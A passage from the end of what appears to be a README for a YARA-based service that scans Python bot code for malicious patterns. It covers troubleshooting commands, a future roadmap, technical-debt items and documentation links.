yara -r yara_rules/ test_file.py

# Test individual rules
yara -r yara_rules/python_malicious.yar test_code.py

# Monitor service performance
curl http://localhost:8080/metrics

# Check NATS connectivity
python -c "
import nats
nc = nats.connect('nats://localhost:4222')
print('NATS connection successful')
"

# Debug Python issues
python -m pdb src/main.py
```

## 📈 Future Roadmap

### Planned Enhancements

- **Machine Learning**: ML-based threat detection beyond YARA patterns
- **Real-time Updates**: Dynamic rule updates without service restart
- **Blockchain Analysis**: Smart contract interaction detection for DeFi bots
- **Behavioral Analysis**: Runtime behavior monitoring and anomaly detection
- **Integration with Threat Intelligence**: External threat feed integration

### Technical Debt

- **Rule Performance**: Optimize YARA rules for faster scanning
- **Caching**: Implement intelligent caching for repeated analyses
- **Error Handling**: Standardize error responses and recovery procedures
- **Documentation**: Inline code documentation and API docs

## 📚 Additional Resources

### Documentation

- [YARA Documentation](https://virustotal.github.io/yara/)
- [Google Gemini API](https://ai.google.dev/gemini-api)
- [NATS Documentation](https://docs.nats.io/)
- [Asyncio Documentation](https://docs.python.org/3/library/asyncio.html)

### Tools & Utilities

- **YARA Tools**: yarac, yarac
- **Testing Frameworks**: pytest, unittest.mock
- **Security Testing**: Security analysis test suites

### Related Services

- **API Server**: Event coordination and result publishing
- **Runtime Services**: Secure bot execution environment
- **Frontend Dashboard**: Security analysis results display

---

*Last updated: October 2024*